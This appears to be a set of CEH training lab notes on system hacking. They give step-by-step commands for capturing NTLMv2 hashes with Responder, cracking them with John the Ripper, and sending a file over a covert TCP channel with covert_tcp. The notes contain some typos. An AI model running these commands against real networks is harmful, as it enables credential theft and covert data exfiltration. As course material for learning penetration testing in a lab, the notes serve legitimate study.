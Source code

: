 # 6 - System Hacking

## Module 06 - System Hacking

### **Lab1 - Task1: Perform Active Online Attack to Crack the System's Password using Responder**

* **Linux:**
  * cd
  * cd Responder
  * chmox +x ./Responder.py
  * **sudo ./Responder.py -I eth0**
  * passwd: \*\*\*\*
* **Windows**
  * run
  * \CEH-Tools
* **Linux:**
  * Home/Responder/logs/SMB-NTMLv2-SSP-\[IP].txt
  * sudo snap install john-the-ripper
  * passwd: \*\*\*\*
  * **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

### **Lab3-Task6: Covert Channels using Covert\_TCP**

* **Attacker:**
  * cd Desktop
  * mkdir Send
  * cd Send
  * echo "Secret"->message.txt
  * Place->Network
  * Ctrl+L
  * **smb://\[IP]**
  * Account & Password
  * copy and paste covert\_tcp.c
  * **cc -o covert\_tcp covert\_tcp.c**
* **Target:**
  * **tcpdump -nvvx port 8888 -I lo**
  * cd Desktop
  * mkdir Receive
  * cd Receive
  * File->Ctrl+L
  * smb://\[IP]
  * copy and paste covert\_tcp.c
  * cc -o covert\_tcp covert\_tcp.c
  * **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  * **Tcpdump captures no packets**
* **Attacker**
  * **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
  * Wireshark (message string being send in individual packet)

